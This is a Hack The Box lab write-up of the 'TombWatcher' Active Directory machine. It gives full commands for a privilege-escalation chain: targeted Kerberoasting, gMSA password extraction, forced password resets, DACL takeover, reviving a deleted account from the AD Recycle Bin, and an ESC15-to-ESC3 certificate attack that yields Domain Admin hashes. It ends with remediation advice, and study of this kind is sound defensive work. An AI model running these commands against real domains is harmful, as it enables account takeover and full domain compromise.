# TombWatcher — Hack The Box

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Medium |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Rooted |
| **Key techniques** | `WriteSPN` → targeted Kerberoast, `AddSelf` → group membership, **gMSA `ReadGMSAPassword`**, `ForceChangePassword`, `WriteOwner` → `GenericAll`, `dacledit` on OU, **AD Recycle Bin revival** of a deleted account, AD CS **ESC15 → ESC3** chain |

---

## TL;DR

TombWatcher is one long ACL chain — starting from a single credential
Henry got at the door, ending at Domain Admin via AD CS ESC3. Every
edge is one `bloodyAD` command:

1. **`henry:H3nry_987TGV!`** has `WriteSPN` on **`alfred`**. Set an
   SPN on Alfred, targeted-Kerberoast him, crack the hash → `alfred:basketball`.
2. **`alfred`** has `AddSelf` on group **`INFRASTRUCTURE`**. Add
   himself → group now includes Alfred.
3. **`INFRASTRUCTURE`** has `ReadGMSAPassword` on **`ANSIBLE_DEV$`**
   (a gMSA). Dump the managed password → NT hash for the machine
   account.
4. **`ANSIBLE_DEV$`** has `ForceChangePassword` on **`sam`**. Reset
   Sam's password to something I know.
5. **`sam`** has `WriteOwner` on **`john`**. Set self as owner →
   grant self `GenericAll` → reset John's password.
6. **`john`** has `GenericAll` on the **`OU=ADCS`** container.
   `impacket-dacledit` writes a full-control ACE for John on the OU
   so the delegation flows down to the CA and the templates.
7. Looking at the **WebServer** template, `Enrollment Rights`
   contains an **orphan SID** (`S-1-5-21-…-1111`) that doesn't
   resolve. Not a known group. `Get-ADObject -IncludeDeletedObjects`
   in the AD Recycle Bin turns it into a deleted user called
   **`cert_admin`** — restore, and John's BloodHound has a fresh
   `GenericAll` edge on the newly-restored account.
8. Reset `cert_admin`'s password with `bloodyAD`; `certipy-ad find
   -vulnerable` under that account now flags **ESC15** on WebServer
   (schema v1, EnrolleeSuppliesSubject).
9. **ESC15 → ESC3 chain**: `certipy-ad req … -template WebServer …
   -application-policies 'Certificate Request Agent'` injects the
   Enrollment-Agent EKU into the resulting certificate; a second
   `certipy-ad req … -template User -pfx administrator.pfx
   -on-behalf-of 'tombwatcher\Administrator'` uses that cert to
   enroll on behalf of the real Domain Admin. `certipy-ad auth`
   returns Administrator's NT hash → **root.txt**.

Every AD edge is one BloodHound relationship; the ADCS half is one
Recycle-Bin restore + one ESC15+ESC3 double-request.

---

## Recon

Given credentials for `henry` — assumed-breach starting position.

```bash
nmap -p- --min-rate=5000 -oA tombwatcher 10.10.11.72
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sCV -oA tombwatcher-scripts 10.10.11.72
```



Standard AD/DC signature: **DNS, Kerberos, RPC, SMB, LDAP, LDAPS,
Global Catalog, WinRM, .NET Remoting**. Domain `TOMBWATCHER.HTB`, host
`dc01.tombwatcher.htb`. Added both to `/etc/hosts` and moved on.

---

## BloodHound — the whole map in one shot

With Henry's creds I pulled the full graph:

```bash
bloodhound-python -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb \
  -c All -ns 10.10.11.72
```


Marking `henry@TOMBWATCHER.HTB` as **Owned** and running *Shortest
paths from owned* lit up a single, long, elegant chain:

```
HENRY → alfred → INFRASTRUCTURE → ANSIBLE_DEV$ → sam → john → OU=ADCS
```

Six edges, six primitives, one write-up:

- `WriteSPN` (Henry → Alfred)
- `AddSelf` (Alfred → INFRASTRUCTURE group)
- `ReadGMSAPassword` (INFRASTRUCTURE → ANSIBLE_DEV$ gMSA)
- `ForceChangePassword` (ANSIBLE_DEV$ → sam)
- `WriteOwner` + `GenericAll` (sam → john)
- `GenericAll` (john → OU=ADCS container)

**`bloodyAD` is the workhorse for the whole thing** — one binary, one
DC connection, every edge is `add …` / `set …` / `get …`:


---

## Step 1 — `WriteSPN` → targeted Kerberoast on Alfred

BloodHound: `HENRY@TOMBWATCHER.HTB` → **`WriteSPN`** →
`ALFRED@TOMBWATCHER.HTB`.



**`WriteSPN`** lets Henry set a `servicePrincipalName` value on
Alfred's user object. Any user with an SPN is Kerberoastable — I can
request a service ticket for that SPN and the ticket is encrypted
with Alfred's NT hash, which I can crack offline. `targetedKerberoast.py`
automates set-SPN + roast + clean-up in one call:

```bash
python3 targetedKerberoast.py -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'
```


Hashcat + rockyou (mode `13100` for Kerberos 5 TGS-REP RC4):

```bash
hashcat -m 13100 alfred.hash /usr/share/wordlists/rockyou.txt --force
```



`alfred:basketball`. Confirmed:

```bash
nxc smb 10.10.11.72 -u alfred -p 'basketball'
```

---

## Step 2 — `AddSelf` → INFRASTRUCTURE group

Alfred has an `AddSelf` right on the `INFRASTRUCTURE` group.
BloodHound shows all outbound edges from Alfred:


Add himself:

```bash
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u alfred -p basketball add groupMember INFRASTRUCTURE Alfred
```


Instant re-login and my group memberships include INFRASTRUCTURE.

---

## Step 3 — `ReadGMSAPassword` on `ANSIBLE_DEV$`

**`INFRASTRUCTURE`** is on the `PrincipalsAllowedToRetrieveManagedPassword`
list for the gMSA **`ANSIBLE_DEV$`**. That's the whole point of a
gMSA — the DC generates the current password from `msDS-ManagedPasswordId`
and hands it out to whoever the "allowed" attribute names. As of
now, that includes Alfred.


`bloodyAD get object` with the `msDS-ManagedPassword` attribute
returns the blob; the tool decodes it into the NT hash for me:

```bash
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u alfred -p basketball get object 'ANSIBLE_DEV$' --attr msDS-ManagedPassword
```


Hash: `3eca34dd13a85db79c03178b7b149621`. That is now a
Pass-the-Hash-able credential for the `ANSIBLE_DEV$` machine account.

---

## Step 4 — `ForceChangePassword` sam

`ANSIBLE_DEV$` has **`ForceChangePassword`** on `sam` — the
"User-Force-Change-Password" extended right, which lets a principal
set a new password on a target user **without knowing the old one**.


`bloodyAD set password` from a Pass-the-Hash session (note the `:` in
front of the hash):

```bash
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u 'ANSIBLE_DEV$' -p ':3eca34dd13a85db79c03178b7b149621' \
  set password sam 'password'
```


Ethical note: same as with any real ACL abuse — you're stomping a
real user's credential. Fine on retired HTB, coordinate a window on
a client engagement and put it back afterwards.

---

## Step 5 — `WriteOwner` → `GenericAll` → reset John

`sam` has **`WriteOwner`** on `john`. `WriteOwner` lets me set myself
as the owner of the target object; the object's owner *always* has
the right to modify its DACL, so from there I grant myself
`GenericAll` and reset the password.


Three `bloodyAD` calls, one per step:

```bash
# 1. take ownership
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u sam -p password set owner john sam

# 2. grant self GenericAll
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u sam -p password add genericAll john sam

# 3. reset password
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u sam -p password set password john 'password'
```





Kerberos wants a synced clock — quick sanity check before the WinRM
login:


Pass-the-password into WinRM as John:

```bash
evil-winrm -i 10.129.232.167 -u john -p password
```


`user.txt` is on John's desktop:


---

## Step 6 — `GenericAll` on `OU=ADCS` → open the CA container

John has **`GenericAll`** on the **`OU=ADCS,DC=TOMBWATCHER,DC=HTB`**
container. `GenericAll` on an OU doesn't automatically apply to its
child objects — but it does let me write a new ACE on the container,
and if that ACE is *inheritable*, it flows down to the objects
inside, including the CA and the certificate templates.



`impacket-dacledit` writes an `FullControl` inheritable ACE for John
on the OU:

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -inheritance \
  -principal 'JOHN' \
  -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' \
  'tombwatcher.htb'/'JOHN':'password'
```

John now effectively controls every template and the CA config
inside the ADCS OU. First look with Certipy:

```bash
certipy-ad find dc01.tombwatcher.htb -u john -p password
```



The `User` template is a textbook enrollment-on-behalf setup, but the
**WebServer** template is the actually interesting one:



Two red flags:

- `Schema Version 1` + `EnrolleeSuppliesSubject: True` + no
  `Client Authentication` in the EKU. That's not classic ESC1
  (missing client-auth EKU), but it *is* the ESC15 preconditions
  (CVE-2024-49019 — schema v1 templates allow application-policy
  injection at enrollment time).
- **Enrollment Rights** includes an orphan SID:
  `S-1-5-21-1392491010-1358638721-2126982587-1111`. Not a group, not
  a user, doesn't resolve with `rpcclient lookupsid`.

An orphan SID on a certificate template is a signal, not a dead end.

---

## Step 7 — AD Recycle Bin revival (the SID belongs to a *deleted* user)

An unresolved SID doesn't mean the principal never existed — it
means the object might be in the Recycle Bin. Filter deleted objects
by the tail of the SID:

```powershell
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects \
  -Properties cn,objectSid,isDeleted \
  | Where-Object { $_.objectSid -like "*1111" }
```



The `-1111` RID belongs to `cert_admin`, tombstoned as
`CN=cert_admin\0ADEL:938182c3-…,CN=Deleted Objects,DC=TOMBWATCHER,DC=HTB`.
Restore it (John has enough over the ADCS OU that the restored
account inherits attribute rights he needs):

```powershell
Restore-ADObject -Identity 'CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb'
```



Re-collect BloodHound — John has a fresh direct edge on the
newly-alive `cert_admin`:




`bloodyAD` sets a password on `cert_admin` (no old-password
required — the GenericAll edge covers it):

```bash
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u john -p password set password cert_admin 'password'
```


---

## Step 8 — ESC15 flagged as vulnerable (as `cert_admin`)

Re-run Certipy under `cert_admin` — now that this account holds the
enrollment right on the WebServer template, `-vulnerable` prints
ESC15:

```bash
certipy-ad find -u cert_admin -p 'password' \
  -dc-ip 10.129.232.167 -vulnerable
```




---

## Step 9 — Certificate #1: ESC15 injection → Enrollment-Agent EKU

**ESC15 in one line:** on a schema-v1 template that lets the
enrollee supply the subject, you can *inject* an
`msPKI-Certificate-Application-Policy` value into the CSR, and the
CA will happily write it into the issued certificate — even though
the template's own EKU doesn't include it. The trick: request
`WebServer` (which normally issues Server-Authentication certs)
with `-application-policies 'Certificate Request Agent'`, and the
resulting cert carries the **Enrollment Agent** EKU instead.

```bash
certipy-ad req -u cert_admin -p 'password' -dc-ip 10.129.232.167 \
  -target dc01.tombwatcher.htb -ca tombwatcher-CA-1 \
  -template WebServer \
  -upn administrator@tombwatcher.htb \
  -application-policies 'Certificate Request Agent'
```



Certipy warns *"Certificate has no object SID"* — expected: the
WebServer template doesn't add a Security Extension. That's fine
because I'm not going to authenticate *with* this certificate. I'm
going to use it as an **Enrollment Agent** for the next request.

### Sidebar — what didn't work

The obvious first attempt was ESC15 to become Administrator
*directly*: request the WebServer cert with
`-application-policies 'Client Authentication'` and
`-upn administrator@tombwatcher.htb`, then `certipy-ad auth` with
it. Certipy printed the cert fine, but auth returned
`Certificate is not valid for client authentication` — the DC
did not accept the injected Client-Auth EKU for PKINIT here.
Marked as `NEEDS VERIFICATION` — likely an environment-specific
mitigation on this box; classic ESC15 client-auth injection is
documented to work elsewhere. I moved to ESC3.

---

## Step 10 — Certificate #2: ESC3 on-behalf-of Administrator

The first certificate has the **Certificate Request Agent** EKU, so
it is a valid **Enrollment Agent** cert. That's exactly the input
ESC3 needs — request a *second* cert on any authentication template
(here, `User`) with `-on-behalf-of` and my Enrollment-Agent cert as
the signer:

```bash
certipy-ad req -u cert_admin -p 'password' -dc-ip 10.129.232.167 \
  -target dc01.tombwatcher.htb -ca tombwatcher-CA-1 \
  -template User \
  -pfx administrator.pfx \
  -on-behalf-of 'tombwatcher\Administrator'
```



This time the cert **does** carry the object SID
`S-1-5-21-…-500` — real Administrator identity, from the CA:



---

## Step 11 — PKINIT as Administrator → root

Authenticate with the PFX. Kerberos wants a synced clock again
(there was a `KRB_AP_ERR_SKEW` on the first try; `ntpdate` fixes
it):

```bash
sudo ntpdate 10.129.232.167
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.232.167
```


Administrator NT hash:
`aad3b435b51404eeaad3b435b51404ee:f61db423bebe3328d33af26741afe5fc`.

Pass-the-hash into WinRM (or `impacket-psexec`), read `root.txt`:

```bash
evil-winrm -i 10.129.232.167 -u administrator \
  -H f61db423bebe3328d33af26741afe5fc
```



---

## Lessons Learned

- **A chain of "low-risk" ACL grants can compound to Domain Admin.**
  Every single edge on TombWatcher would be graded "should not
  happen in production but doesn't matter on its own" by a lot of
  teams. Chained, they equal DA.
- **`WriteSPN` is a first-class Kerberoast primitive.** Any account
  with that right on a user with a crackable password is a targeted
  Kerberoast waiting to happen. `targetedKerberoast.py` is the
  reflex tool.
- **gMSA are password-reset primitives, not just service accounts.**
  If a low-priv group is on
  `PrincipalsAllowedToRetrieveManagedPassword`, every member of that
  group can pull the current password and use the machine-account
  rights the gMSA holds. Audit that attribute everywhere.
- **`WriteOwner` = `GenericAll` in two extra steps.** BloodHound
  treats them as separate primitives but the abuse is the same:
  take ownership, grant yourself the rights you actually want, use
  them.
- **`dacledit` on a container is often more powerful than on a
  single object** — an `-inheritance` write on an OU applies to
  everything inside, and if the OU holds AD CS templates you're one
  Certipy chain away from Domain Admin.
- **SID revival.** An unresolved SID in an ACL is a signal, not a
  dead end — always check the **AD Recycle Bin** before ignoring
  it. A restored account often keeps the exact rights that made it
  worth deleting. My new rule: `Get-ADObject -IncludeDeletedObjects`
  is a mandatory recon step on any AD box with an orphan SID.
- **Read templates for shape, not for Certipy's `-vulnerable`
  flag.** WebServer here is *not* a classic ESC1 (no Client-Auth
  EKU), and initially Certipy didn't call it out — until I restored
  and re-enrolled as `cert_admin`. The template shape (schema v1 +
  EnrolleeSuppliesSubject) told me it was ESC15 before Certipy did.
- **ESC15 direct-to-DA can fail even when Certipy flags it.**
  Injecting `Client Authentication` as `-application-policies` and
  authenticating directly returned `Certificate is not valid for
  client authentication` on this box. The reliable finish was
  ESC15 → ESC3: use the injected `Certificate Request Agent` EKU
  to enroll on behalf of Administrator. Two certificates instead
  of one, but every DC accepts the outcome.
- **Two-step certificate flows** are the same idea as ACL chains:
  cert #1 (to me) is not the target — it's the key that lets me
  request cert #2 (on someone else's behalf).

---

## Remediation

- **Audit `WriteSPN`** across the whole domain. There is no
  legitimate reason for a normal user to be able to set an SPN on
  another user. It is almost always a legacy delegation.
- **Move service accounts to gMSA or MSA** — but restrict
  `msDS-GroupMSAMembership` to the specific service account, not a
  wide administrative group. Any group on that attribute inherits
  Pass-the-Hash-able credential material.
- **Alert on `AddSelf` to any privileged group.** Even more importantly,
  alert on membership changes to groups that appear on any gMSA
  `PrincipalsAllowedToRetrieveManagedPassword` attribute.
- **Do not leave `WriteOwner`/`GenericAll`/`ForceChangePassword` on
  Tier-0 users.** Enforce a Tier-0 forest boundary: no Tier-1/2
  principal has any of these rights on a Tier-0 account, ever.
- **Container-level `GenericAll` is a delegation smell** — especially
  on the AD CS OU. Move templates out of any OU that has non-Tier-0
  ACL delegations, or replace the delegation with a JIT/PIM workflow.
- **Enable AD CS ESC-* mitigations**: require Manager Approval on
  templates that expose `EnrolleeSuppliesSubject` on schema v1, or
  raise those templates to schema v2 to shut down ESC15. Monitor
  the CA event log for template requests where the SAN's UPN
  doesn't match the requesting user, and for `-on-behalf-of`
  requests against user-auth templates.
- **Empty the AD Recycle Bin as part of decommissioning.** Simply
  deleting an account leaves its SID (and any ACEs referencing it)
  live for the Recycle Bin retention period. If the account had
  privileged enrollment rights, restoring it is a one-liner for
  anyone with revive rights.
- **Alert on `Restore-ADObject`.** It's a low-volume signal that
  usually indicates either a real restore ticket or an attacker
  reviving a privileged tombstone.

---

## Tools used

- `nmap`
- `bloodhound-python` + BloodHound GUI
- `bloodyAD` — the workhorse of this box
- `targetedKerberoast.py`
- `hashcat` (mode 13100)
- `impacket-dacledit`
- PowerShell AD module (`Get-ADObject -IncludeDeletedObjects`, `Restore-ADObject`)
- **Certipy** (`certipy-ad find`, `req`, `auth`) — for ESC15 injection and ESC3 enroll-on-behalf-of
- `evil-winrm` (Pass-the-Hash for root)
---

**Live version:** [read this write-up on my blog](https://debasjan.github.io/writeups/tombwatcher/)
